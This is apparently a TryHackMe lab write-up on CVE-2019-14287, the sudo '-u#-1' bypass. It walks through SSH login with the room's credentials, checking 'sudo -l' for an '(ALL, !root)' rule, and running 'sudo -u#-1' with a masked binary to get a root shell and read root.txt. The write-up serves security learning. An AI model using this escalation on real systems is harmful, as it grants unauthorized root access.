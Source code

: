 # Sudo Security Bypass

## Room
This a Try Hack Me room called `Sudo Security Bypass` 

The Web address for this room is
https://tryhackme.com/room/sudovulnsbypass

## Synopsis.
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series


---

## Getting started

Make sure you are connected to the Try Hack Me VPN before starting!

The first thing I do when starting a room is to note the victim and attacker's IP as given by Try Hack Me.

`export MYIP=10.9.9.10
export IP=10.10.10.10`

This format allows me to copy and paste in any terminal and use `$IP` anytime I need the victim's IP or `$MYIP` if I need my own

---

## Task 1 - Deploy!

This room is very beginner friendly. Enjoy the read, hit deploy, go.

---

## Task 2 - Security Bypass

I highly recommend reading through the explanations before getting started with the rest. You will find it very useful.

### #1 - What command are you allowed to run with sudo?

We are told to SSH to the machine:
`port: 2222
Username: tryhackme
Password: tryhackme`

This gives us the following command:
`ssh -p 2222 tryhackme@$IP`

Once we are in, we can run sudo -l to see what we can execute as sudo.
`sudo -l`

`User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /xxx/xxxx`

You will find only one command is available. Go back to the explanations above the questions. this format `(ALL, !root)` is the one susceptible to CVE-2019-14287. It means we can pretend to be root by acting as user with id -1 and effectively become root.

A great ressource to always try when you find commands you can execute with sudo-l is https://gtfobins.github.io/

Type in the name of the command you found with sudo -l and click on the result to see the page.

The result is quite self-explanatory: 

`Shell
It can be used to break out from restricted environments by spawning an interactive system shell.
  xxxx`

This tells us we can escalate our privileges if we are able to run this command acting as root (with sudo).

Now let's piece it all together by following the hints from the description and adding this command :

`sudo -u#-1 xxxx` Again replace xxxx with the command.

You should now be root

`tryhackme@sudo-privesc:/$ sudo -u#-1 xxxx
root@sudo-privesc:/# `

And now, for the easy part, get the root.txt file in the root folder:

`cd /root
ls
cat root.txt`
